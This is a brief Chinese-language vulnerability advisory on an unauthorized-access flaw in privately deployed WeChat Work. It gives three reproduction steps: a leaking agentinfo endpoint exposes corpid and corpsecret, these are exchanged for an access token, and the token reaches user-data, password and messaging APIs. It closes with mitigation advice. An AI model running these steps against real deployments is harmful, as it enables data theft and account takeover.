



# 企业微信私有化部署api未授权漏洞
**安全等级**：高

**漏洞影响**：未知
## 描述
私有化部署企业微信API未授权，/cgi-bin/gateway/agentinfo接口未授权访问导致，corpsecret、corpid、Secret泄露，进而可获取accesstoken，获取企业微信接口调用权限，导致数据泄露。

## 复现
漏洞详情分析：
第一步：，通过泄露信息接口可以获取corpid和corpsecret
https://<企业微信域名>/cgi-bin/gateway/agentinfo

第二步，使用corpsecret和corpid获得token
https://<企业微信域名>/cgi-bin/gettoken?corpid=ID&corpsecret=SECRET
注意：ID使用strcorpid

第三步，使用token访问诸如企业通讯录信息，修改用户密码，发送消息，云盘等接口
https://<企业微信域名>/cgi-bin/user/get?access_token=ACCESS_TOKEN&userid=USERID

## 修复建议
API接口限制，IP白名单限制；
跟进企业微信产品更新。
